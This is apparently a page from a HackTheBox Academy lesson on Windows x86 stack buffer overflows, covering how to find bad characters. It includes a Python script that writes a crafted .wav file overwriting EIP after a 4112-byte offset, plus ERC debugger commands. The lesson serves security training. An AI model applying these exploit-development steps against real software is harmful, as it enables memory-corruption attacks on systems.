 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/89/section/947
// Platform Version: V1
// Module ID: 89
// Module Name: Stack-Based Buffer Overflows on Windows x86
// Module Difficulty: Medium
// Section ID: 947
// Section Title: Identifying Bad Characters
// Page Title: Stack-Based Buffer Overflows on Windows x86
// Page Number: 05
-->

# Identifying Bad Characters

**Module Name:** Stack-Based Buffer Overflows on Windows x86 **Page Number:** 05

#### STACK-BASED BUFFER OVERFLOWS ON WINDOWS X86

# Identifying Bad Characters

## Generating All Characters

![https://academy.hackthebox.com/storage/modules/89/win32bof_erc_bytearry.jpg](https://academy.hackthebox.com/storage/modules/89/win32bof_erc_bytearry.jpg)

## Updating our exploit

``` python
def bad_chars():
    all_chars = bytes([
        0x00, 0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07,
        ...SNIP...
        0xF8, 0xF9, 0xFA, 0xFB, 0xFC, 0xFD, 0xFE, 0xFF
    ])
    
    offset = 4112
    buffer = b"A"*offset
    eip = b"B"*4
    payload = buffer + eip + all_chars
    
    with open('chars.wav', 'wb') as f:
        f.write(payload)

bad_chars()
```

## Comparing our Input

![https://academy.hackthebox.com/storage/modules/89/win32bof_bytes_stack.jpg](https://academy.hackthebox.com/storage/modules/89/win32bof_bytes_stack.jpg)

![https://academy.hackthebox.com/storage/modules/89/win32bof_bytes_esp.jpg](https://academy.hackthebox.com/storage/modules/89/win32bof_bytes_esp.jpg)

``` cmd-session
ERC --compare 0014F974 C:\Users\htb-student\Desktop\ByteArray_1.bin
```

![https://academy.hackthebox.com/storage/modules/89/win32bof_bytes_compare.jpg](https://academy.hackthebox.com/storage/modules/89/win32bof_bytes_compare.jpg)

## Eliminating Bad Characters

``` cmd-session
ERC --bytearray -bytes 0x00
```

![https://academy.hackthebox.com/storage/modules/89/win32bof_erc_bytearry_2.jpg](https://academy.hackthebox.com/storage/modules/89/win32bof_erc_bytearry_2.jpg)

``` python
def bad_chars():
    all_chars = bytes([
        0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07, 0x08
...SNIP...
```

![https://academy.hackthebox.com/storage/modules/89/win32bof_bytes_compare_2.jpg](https://academy.hackthebox.com/storage/modules/89/win32bof_bytes_compare_2.jpg)

# 

# 

#### Questions

####